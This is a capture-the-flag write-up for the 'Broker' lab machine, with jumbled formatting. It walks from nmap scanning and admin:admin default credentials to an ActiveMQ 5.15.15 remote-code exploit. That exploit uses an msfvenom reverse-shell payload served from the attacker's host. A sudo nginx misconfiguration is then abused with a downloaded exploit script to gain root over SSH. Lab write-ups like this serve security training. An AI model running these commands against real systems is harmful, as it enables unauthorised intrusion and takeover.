

Let’s start by scanning the target using nmap.
/home/rad0/writeups/Broker
Broker
easy
Enumeration
> sudo nmap -sV -p- 10.10.11.243
1 Nmap scan report
for 10.10.11.243
2 Host is up (0.032s
latency).
3 Not shown: 65526
closed tcp ports (reset)
4 PORT STATE SERVICE
VERSION
5 22/tcp open ssh
OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux;
protocol 2.0)
6 80/tcp open http
nginx 1.18.0 (Ubuntu)
7 1883/tcp open
mqtt
8 5672/tcp open
amqp?
9 8161/tcp open http
Jetty 9.4.39.v20210325
1041627/tcp open
tcpwrapped
1161613/tcp open
stomp Apache ActiveMQ
1261614/tcp open
http Jetty 9.4.39.v20210325
1361616/tcp open
apachemq ActiveMQ OpenWire transport 5.15.15q
ActiveMQ OpenWire transport 5.15.15
It seems there is a website running on port 80. Let’s check it out.

Looks like a default login page. We can try some commonly used usernames and passwords and see if we have any luck.
Yup, the combination admin: admin works and reveals what looks like an ActiveMQ dashboard.
Exploitation
Browsing the dashboard, I have confirmed that the site uses ActiveMQ 5.15.15 as suggested by nmap. After a quick google search I have found an exploit written in Go we can use to get a reverse shell. We’ll need to download the files main.go and poc-linux.xml. Now we just need to follow the instructions provided by the author.
First we need to create the payload.
> msfvenom -p linux/x64/shell_reverse_tcp LHOST={your vpn ip} LPORT={listener port} -f elf -o test.elf
Don’t forget to change poc-linux.xml according to the guide.
Now let’s start an HTTP server in the directory of the payload.
> python3 -m http.server 8008
All that’s left now is to start a listener on the port we specified while creating the payload and running main.go.
> nc -lvnp 3333
> go run main.go -i 10.10.11.243 -u http://{your vpn ip}:8008/poc-linux.xml
We have successfully received a shell. Now we can retrieve the user.txt flag.
> cat /home/activemq/user.txt
41e6a7f8************************
Privilege Escalation
First, I would like to get a more stable shell. We can achieve this by running the following command inside the shell.
> script /dev/null -c bash
We can also cd into the /home/activemq directory.
Let’s see what commands we can run with sudo permissions.
> sudo -l
1Matching Defaults
entries for activemq on broker:
2 env_reset,
mail_badpass,
3
secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,
4 use_pty
5
6User activemq may
run the following commands on broker:
7 (ALL : ALL)
NOPASSWD: /usr/sbin/nginx
We can run /usr/sbin/nginx with sudo permissions without providing a password. After a quick google search, I have found this exploit. We can download it on the target machine using the same HTTP server as before.
> wget http://{your vpn ip}:8008/exploit.sh
Don’t forget to add the execute permission to the file.
> chmod +x exploit.sh
After running the exploit, a ssh key is generated. We can use the default directory and we do not need to provide a passphrase. It’s important to add the 600 permission to the key.
> chmod 600 /home/activemq/.ssh/id_rsa
> ssh -i /home/activemq/.ssh/id_rsa root@localhost
We successfully got the root permissions.
> cat /root/root.txt
45b65f6c************************